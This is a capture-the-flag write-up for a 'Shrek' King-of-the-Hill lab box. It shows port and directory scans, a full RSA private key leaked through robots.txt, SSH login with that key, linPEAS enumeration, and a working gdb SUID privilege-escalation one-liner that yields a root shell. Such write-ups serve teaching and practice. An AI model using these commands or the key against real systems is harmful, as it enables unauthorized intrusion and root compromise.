 # Vincent's Shrek KOTH writeup

## Recon

### nmap

```text
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.2
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.6 ((CentOS) PHP/7.1.33)
3306/tcp open  mysql   MySQL (unauthorized)
8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
9999/tcp open  abyss?
```

### gobuster

```text
/upload (Status: 301)
/cms (Status: 301)
/api (Status: 301)
/robots.txt (Status: 200)
```

## Web Enumeration

### shrek.thm/robots.txt

```text
User-agent: *
Disallow: /Cpxtpt2hWCee9VFa.txt
```

#### /Cpxtpt2hWCee9VFa.txt

```text
-----BEGIN RSA PRIVATE KEY-----
MIIEogIBAAKCAQEAsKHyvIOqmETYwUvLDAWg4ZXHb/oTgk7A4vkUY1AZC0S6fzNE
JmewL2ZJ6ioyCXhFmvlA7GC9iMJp13L5a6qeRiQEVwp6M5AYYsm/fTWXZuA2Qf4z
8o+cnnD+nswE9iLe5xPl9NvvyLANWNkn6cHkEOfQ1HYFMFP+85rmJ2o1upHkgcUI
ONDAnRigLz2IwJHeZAvllB5cszvmrLmgJWQg2DIvL/2s+J//rSEKyISmGVBxDdRm
T5ogSbSeJ9e+CfHtfOnUShWVaa2xIO49sKtu+s5LAgURtyX0MiB88NfXcUWC7uO0
Z1hd/W/rzlzKhvYlKPZON+J9ViJLNg36HqoLcwIDAQABAoIBABaM5n+Y07vS9lVf
RtIHGe4TAD5UkA8P3OJdaHPxcvEUWjcJJYc9r6mthnxF3NOGrmRFtDs5cpk2MOsX
u646PzC3QnKWXNmeaO6b0T28DNNOhr7QJHOwUA+OX4OIio2eEBUyXiZvueJGT73r
I4Rdg6+A2RF269yqrJ8PRJj9n1RtO4FPLsQ/5d6qxaHp543BMVFqYEWvrsdNU2Jl
VUAB652BcXpBuJALUV0iBsDxbqIKFl5wIsrTNWh+hkUTwo9HroQEVd4svCN+Jr5B
Npr81WG2jbKqOx2kJVFW/yCivmr/f/XokyOLBi4N/5Wqq+JuHD0zSPTtY5K04SUd
63TWQ5kCgYEA32IwfmDwGZBhqs3+QAH7y46ByIOa632DnZnFu2IqKySpTDk6chmh
ONSfc4coKwRq5T0zofHIKLYwO8vVpJq4iQ31r+oe7fAHh08w/mBC3ciCSi6EQdm5
RMxW0i4usAuneJ04rVmWWHepADB0BqYiByWtWFYAY9Kpks/ks9yWHn8CgYEAymxD
q3xvaWFycawJ+I/P5gW8+Wr1L3VrGbBRj1uPhNF0yQcA03ZjyyViDKeT/uBfCCxX
LPoLmoLYGmisl/MGq3T0g0TtrgvkFU6qZ3sjYJ+O/yrT06HYapJLv6Ns/+98uNvi
3VEQodZNII8P6WLk3RPp1NzDVcFDLmD9C40UAQ0CgYBokPgOUKZT8Sgm4mJ/5+3M
LZtHF4PvdEOmBJNw0dTXeUPesHNRcfnsNmulksEU0e6P/IQs7Jc7p30QoKwTb3Gu
hmBZxohP7So5BrLygHEMjI2g2AGFKbv2HokNvhyQwAPXDBG549Pi+bCcrBHEAwSu
v85TKX7pO3WxiauPHlUPVQKBgFmIF0ozKKgIpPDoMiTRnxfTc+kxyK6sFanwFbL9
wXXymuALi+78D1mb+Ek2mbwDC6V2zzwigJ1fwCu2Hpi6sjmF6lxhUWtI8SIHgFFy
4ovrJvlvvO9/R1SjzoM9yolNKPIut6JCJ8QdIFIFVPlad3XdR/CRkIhOieNqnKHO
TYnFAoGAbRrJYVZaJhVzgg7H22UM+sAuL6TR6hDLqD2wA1vnQvGk8qh95Mg9+M/X
6Zmia1R6Wfm2gIGirxK6s+XOpfqKncFmdjEqO+PHr4vaKSONKB0GzLI7ZlOPPU5V
Q2FZnCyRqaHlYUKWwZBt2UYbC46sfCWapormgwo3xA8Ix/jrBBI=
-----END RSA PRIVATE KEY-----
```

### ssh2john.py

```text
# python3 ssh2john.py /home/kali/key.pem
ssh2john.py:103: DeprecationWarning: decodestring() is a deprecated alias since Python 3.1, use decodebytes()
  data = base64.decodestring(data)
/home/kali/key.pem has no password!
```

Here we can see that there is no password for the ssh key.

## SSH

Took a random guess because it's called Shrek.

```text
# ssh -i key.pem shrek@shrek.thm
Last login: Tue Jun  9 23:03:29 2020 from ip-10-1-122-133.eu-west-1.compute.internal
[shrek@shrek ~]$
```

### ls

```bash
$ ls
check.sh  flag.txt
```

### LinPEAS

From here I downloaded linPEAS from github to find any vulnerabilities.

```text
# git clone https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite.git
```

#### scp

I needed to get this file onto here

```text
# scp -i key.pem linpeas.sh shrek@shrek.thm:/home/shrek
```

Afterwards it looked like this:

```text
$ ls
check.sh  flag.txt  linpeas.sh
```

#### linPEAS.sh

```bash
$ sh linpeas.sh
====================================( Interesting Files )=====================================
[+] SUID - Check easy privesc, exploits and write perms
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#commands-with-sudo-and-suid-commands
/usr/bin/chfn        --->    SuSE_9.3/10
/usr/bin/chsh
/usr/bin/mount        --->    Apple_Mac_OSX(Lion)_Kernel_xnu-1699.32.7_except_xnu-1699.24.8
/usr/bin/chage
/usr/bin/gpasswd
/usr/bin/newgrp        --->    HP-UX_10.20
/usr/bin/su
/usr/bin/umount        --->    BSD/Linux(08-1996)
/usr/bin/sudo        --->    /sudo$
/usr/bin/pkexec        --->    Linux4.10_to_5.1.17(CVE-2019-13272)/rhel_6(CVE-2011-1485)
/usr/bin/gdb
/usr/bin/crontab
/usr/bin/run-parts
/usr/bin/passwd        --->    Apple_Mac_OSX(03-2006)/Solaris_8/9(12-2004)/SPARC_8/9/Sun_Solaris_2.3_to_2.5.1(02-1997)
/usr/sbin/pam_timestamp_check
/usr/sbin/unix_chkpwd
/usr/sbin/usernetctl
/usr/lib/polkit-1/polkit-agent-helper-1
/usr/libexec/dbus-1/dbus-daemon-launch-helper

[+] SGID
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#commands-with-sudo-and-suid-commands
/usr/bin/wall
/usr/bin/write
/usr/bin/gdb
/usr/bin/run-parts
/usr/bin/ssh-agent
/usr/sbin/netreport
/usr/sbin/postdrop
/usr/sbin/postqueue
/usr/libexec/utempter/utempter
/usr/libexec/openssh/ssh-keysign
```

You can't see it here, but the most interesting part was gdb.

After looking on GTFObins, you can find this gdb privilege escalation:

```text
gdb -nx -ex 'python import os; os.execl("/bin/sh", "sh", "-p")' -ex quit
```

Here's the result:

```text
[shrek@shrek ~]$ gdb -nx -ex 'python import os; os.execl("/bin/sh", "sh", "-p")' -ex quit
GNU gdb (GDB) Red Hat Enterprise Linux 7.6.1-115.el7
Copyright (C) 2013 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "x86_64-redhat-linux-gnu".
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
sh-4.2#
```

From here we can find all the flags and defend the title.

